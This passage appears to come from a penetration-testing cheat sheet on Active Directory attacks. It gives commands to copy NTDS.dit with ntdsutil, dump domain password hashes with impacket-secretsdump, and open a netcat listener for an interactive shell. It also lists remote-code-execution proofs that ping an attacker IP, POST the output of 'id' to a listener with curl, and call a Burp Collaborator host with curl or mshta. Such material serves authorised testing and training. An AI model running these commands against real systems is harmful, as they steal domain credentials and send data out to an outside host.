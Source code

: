 https://github.com/eladshamir/Internal-Monologue

NTDS - Domain Controller
Dumping and enumerating NTDS.dit - a file that contains information about Active Directory users (hashes!).

powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
Dump hashes

/usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
Interactive shell with nc
rlwrap nc -nlvp PORT
Tipis and tricks
RCE POC
We can use the folloiwng tricks as an RCE POC(in some engagements, the client asks for a limited tests on RCE POCs).

Ping
Pentester machine

tcpdump -nni <eth-adapter> -e icmp[icmptype] == 8
Under the exploit run

ping <Attacker-IP>
You can specify a number of pings with -c agrments, If ICMP requests recieved, RCE achieved

Curl
Execute commands and recieve data with the POST request

curl -d "$(id)" 127.0.0.1:9988
Recieve data

nc -nlvp 9988
Burpsuite Collaborator
Use burpcollaborator as POC

Linux
curl <burp-collaborator.com>
Windows
mshta <burp-collaborator.com>
